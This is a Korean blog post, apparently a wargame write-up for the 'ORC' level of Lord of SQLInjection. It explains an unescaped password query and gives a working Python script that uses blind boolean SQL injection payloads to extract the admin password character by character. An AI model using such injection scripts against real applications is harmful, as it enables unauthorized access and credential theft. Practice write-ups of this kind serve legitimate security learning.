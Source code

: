 ```yaml
---
title: "Lord of SQLInjection - ORC"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# ORC
## 문제
![img](/assets/images/los/orc1.png)

- 첫번째 쿼리를 보면 admin 계정에 입력한 pw로 조회한다.
- 두번째 쿼리를 보면 입력한 pw에 addslashes 함수를 통해 ', ", \, NUL 문자에 백슬래시를 추가하여 조회한다.
- 첫번째 쿼리는 이스케이프가 안된 상태로 쿼리하기 때문에 해당 부분을 통하여 admin의 패스워드를 추출할 수 있다.

## 정답
![img](/assets/images/los/orc2.png)

- python을 통해 password의 길이를 구한 후 문자를 비교하여 풀 수 있다.

![img](/assets/images/los/orc3.png)

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

cookie = {'PHPSESSID' : 'cookie의 세션 아이디 입력'}

pass_len = 0

for length in range(1,30):
    query = "?pw=' or id='admin' and %d=length(pw)%%23" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=' or id='admin' and ord(substr(pw,%d,1))='%d'%%23" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)
```
